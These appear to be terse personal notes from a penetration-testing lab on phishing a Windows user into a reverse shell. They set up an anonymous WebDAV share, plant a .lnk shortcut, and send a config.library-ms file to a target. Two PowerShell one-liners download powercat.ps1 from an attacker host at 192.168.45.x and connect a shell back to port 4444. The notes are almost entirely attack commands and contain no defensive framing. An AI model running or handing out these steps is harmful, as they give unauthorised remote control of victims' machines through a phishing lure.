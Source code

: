 
mkdir /home/kali/beyond/webdav

/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/

in lnkfile :
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.250:8000/powercat.ps1'); powercat -c 192.168.45.250 -p 4444 -e powershell"
```


put lnkfile in the webdav folder

send config.library-ms to reciever

host powercat.ps1 on python server

powershell.exe -c iwr http://192.168.45.248:8000/powercat.ps1 -outfile c:\windows\temp\powercat.ps1; powercat -c 192.168.45.250 -p 4444 -e powershell"